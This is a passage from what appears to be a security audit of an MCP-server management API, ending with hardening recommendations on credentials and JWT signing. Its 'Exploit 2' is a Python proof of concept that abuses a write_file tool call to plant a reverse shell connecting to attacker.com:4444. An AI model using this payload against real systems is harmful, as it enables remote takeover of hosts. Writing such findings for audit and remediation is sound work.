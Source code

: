 ```bash
```

#### Exploit 2: Remote Code Execution
```python
import requests
import base64

# RCE via command injection
payload = {
    "tool": "write_file",
    "arguments": {
        "path": "/tmp/exploit.py",
        "content": base64.b64encode(b"""
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("attacker.com",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/bash","-i"])
""").decode()
    }
}

# Execute reverse shell
requests.post("http://target:8000/api/v1/mcp-servers/server-1/execute", 
              json=payload,
              headers={"Authorization": f"Bearer {token}"})
```

## 9. Security Hardening Recommendations

### 9.1 Immediate Actions (24-48 hours)

1. **Remove Hardcoded Credentials**
```python
# Replace auth.py:26 with:
from app.db.deps import verify_user_credentials

user = await verify_user_credentials(form_data.username, form_data.password)
if not user:
    raise HTTPException(status_code=401, detail="Invalid credentials")
```

2. **Fix JWT Implementation**
```python
# Use RS256 with proper key management
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.primitives.asymmetric import rsa

# Generate RSA keys
private_key = rsa.generate_private_key(public_exponent=65537, key_size=2048)
public_key = private_key.public_key()

# Use for JWT signing
access_token = jwt.encode(payload, private_key, algorithm="RS256")
```
